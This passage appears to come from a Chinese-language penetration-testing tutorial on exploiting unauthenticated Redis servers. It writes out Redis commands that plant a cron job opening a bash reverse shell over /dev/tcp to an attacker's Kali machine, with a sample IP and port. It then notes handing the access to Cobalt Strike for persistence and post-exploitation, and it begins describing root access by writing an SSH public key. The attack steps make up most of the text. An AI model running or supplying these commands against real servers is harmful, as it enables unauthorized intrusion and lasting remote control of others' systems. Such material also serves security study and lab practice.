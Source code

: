 然后通过未授权访问连接上服务器执行命令

```plain
config set dir /var/spool/cron

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/<kali的IP>/<端口> 0>&1\n\n\n"

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/192.168.16.59/5678 0>&1\n\n\n"

或者
set x "\n* * * * * /bin/bash i > /dev/tcp/<kali的IP>/<端口> 0<&1 2>&1\n"

set x "\n* * * * * /bin/bash i >& /dev/tcp/192.168.16.59/5678 0<&1 2>&1\n"

config set dbfilename root
save
```

<p align="center"><img src="img/2/redis/9.png" width="800px"></p>

待任务执行后会弹到kali的nc上，过一分钟左右就可以收到shell

<p align="center"><img src="img/2/redis/10.png" width="800px"></p>

再上线到CS做权限维持和后渗透

<p align="center"><img src="img/2/redis/11.png" width="800px"></p>

#### 3.利用公私钥认证获得root权限

在以下条件下,可以利用此方法

*  Redis 服务使用 ROOT 账号启动

* 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.
